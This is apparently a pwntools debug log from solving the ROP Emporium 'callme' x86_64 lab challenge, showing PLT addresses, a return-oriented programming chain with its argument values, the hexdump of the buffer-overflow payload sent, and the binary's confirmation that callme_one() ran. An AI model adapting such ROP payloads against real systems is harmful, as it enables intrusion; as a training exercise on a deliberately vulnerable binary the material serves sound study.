 ```
[DEBUG] PLT 0x400710 read
[DEBUG] PLT 0x400720 callme_one
[DEBUG] PLT 0x400730 setvbuf
[DEBUG] PLT 0x400740 callme_two
[DEBUG] PLT 0x400750 exit
[DEBUG] PLT 0x4006d0 puts
[DEBUG] PLT 0x4006e0 printf
[DEBUG] PLT 0x4006f0 callme_three
[DEBUG] PLT 0x400700 memset
[DEBUG] PLT 0x400710 read
[DEBUG] PLT 0x400720 callme_one
[DEBUG] PLT 0x400730 setvbuf
[DEBUG] PLT 0x400740 callme_two
[DEBUG] PLT 0x400750 exit
[DEBUG] PLT 0x4006d0 puts
[DEBUG] PLT 0x4006e0 printf
[DEBUG] PLT 0x4006f0 callme_three
[DEBUG] PLT 0x400700 memset
[DEBUG] PLT 0x400710 read
[DEBUG] PLT 0x400720 callme_one
[DEBUG] PLT 0x400730 setvbuf
[DEBUG] PLT 0x400740 callme_two
[DEBUG] PLT 0x400750 exit
[*] 0x0000: b'<\t@\x00\x00\x00\x00\x00' b'<\t@\x00\x00\x00\x00\x00'
    0x0008: b'\xef\xbe\xad\xde\xef\xbe\xad\xde' b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
    0x0010: b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca'
    0x0018: b'\r\xf0\r\xd0\r\xf0\r\xd0' b'\r\xf0\r\xd0\r\xf0\r\xd0'
    0x0020: b' \x07@\x00\x00\x00\x00\x00' b' \x07@\x00\x00\x00\x00\x00'
    0x0028: b'<\t@\x00\x00\x00\x00\x00' b'<\t@\x00\x00\x00\x00\x00'
    0x0030: b'\xef\xbe\xad\xde\xef\xbe\xad\xde' b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
    0x0038: b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca'
    0x0040: b'\r\xf0\r\xd0\r\xf0\r\xd0' b'\r\xf0\r\xd0\r\xf0\r\xd0'
    0x0048: b'@\x07@\x00\x00\x00\x00\x00' b'@\x07@\x00\x00\x00\x00\x00'
    0x0050: b'<\t@\x00\x00\x00\x00\x00' b'<\t@\x00\x00\x00\x00\x00'
    0x0058: b'\xef\xbe\xad\xde\xef\xbe\xad\xde' b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
    0x0060: b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca'
    0x0068: b'\r\xf0\r\xd0\r\xf0\r\xd0' b'\r\xf0\r\xd0\r\xf0\r\xd0'
    0x0070: b'\xf0\x06@\x00\x00\x00\x00\x00' b'\xf0\x06@\x00\x00\x00\x00\x00'
[DEBUG] Received 0x44 bytes:
    b'callme by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Hope you read the instructions...\n'
    b'\n'
    b'> '
[DEBUG] Sent 0xa1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  3c 09 40 00  00 00 00 00  │AAAA│AAAA│<·@·│····│
    00000030  ef be ad de  ef be ad de  be ba fe ca  be ba fe ca  │····│····│····│····│
    00000040  0d f0 0d d0  0d f0 0d d0  20 07 40 00  00 00 00 00  │····│····│ ·@·│····│
    00000050  3c 09 40 00  00 00 00 00  ef be ad de  ef be ad de  │<·@·│····│····│····│
    00000060  be ba fe ca  be ba fe ca  0d f0 0d d0  0d f0 0d d0  │····│····│····│····│
    00000070  40 07 40 00  00 00 00 00  3c 09 40 00  00 00 00 00  │@·@·│····│<·@·│····│
    00000080  ef be ad de  ef be ad de  be ba fe ca  be ba fe ca  │····│····│····│····│
    00000090  0d f0 0d d0  0d f0 0d d0  f0 06 40 00  00 00 00 00  │····│····│··@·│····│
    000000a0  0a                                                  │·│
    000000a1
[*] Switching to interactive mode
[*] Process './callme' stopped with exit code 0 (pid 6377)
[DEBUG] Received 0x68 bytes:
    b'Thank you!\n'
    b'callme_one() called correctly\n'
```